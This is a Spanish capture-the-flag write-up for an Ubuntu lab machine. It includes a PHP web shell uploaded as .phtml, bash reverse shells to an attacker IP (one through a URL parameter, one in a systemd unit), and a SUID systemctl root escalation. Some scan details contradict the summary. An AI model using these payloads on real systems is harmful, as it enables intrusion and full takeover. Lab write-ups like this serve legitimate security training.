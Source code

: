 # Summary
- IP: 10.10.129.26
- Ports: 21,22,139,445,3128,3333
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
	-  139 -> Samba smbd 3.X - 4.X
	-  445 -> Samba smbd 4.3.11-Ubuntu
	-  3128 -> Squid http proxy 3.5.12
	-  3333 -> Apache httpd 2.4.18

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo de directorios:

```
#gobuster dir -u http://10.10.54.172:3333/ -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100

#gobuster dir -u http://10.10.54.172:3333/internal -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Nos encontramos el directorio "internal" el cuas nos permite subida de archivos, aprovechamos e intentamos subir un PHP malicioso, sin embargo no se permite la extension php, probamos con todas las demás variantes y funciona con la extensión "phtml":

```
$nano shell.phtml

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

- Lo subimos y accedemos a él desde el directorio /internal/uploads, ejecutamos una reverse shell básica mediante el parámetro "cmd" en la url:

http://10.10.54.172:3333/internal/uploads/cmd.phtml?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.18.101.123/443%200%3E%261%22

- Hacemos tratamiento de la tty y obtenemos primera flag.

# ESCALANDO PRIVILEGIOS:

- Buscamos binarios con permisos SUID:

 find / -perm -4000 2>/dev/null  

- Encontramos un binario clave "/bin/systemctl", con una búsqueda encontramos la manera de poder aprovecharlo para ganar privilegios [Privilege Escalation: Systemctl (Misconfigured Permissions — sudo/SUID) (github.com)](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

- Creamos un archivo "root.service" con el siguiente contenido:

```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```


- Luego ejecutamos los siuientes comandos estando en escucha en la máquina atacante:

```
/bin/systemctl enable /dev/shm/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /dev/shm/root.service
Created symlink from /etc/systemd/system/root.service -> /dev/shm/root.service
```

```
/bin/systemctl start root
```

- Accedemos como root y obtenemos la última flag.



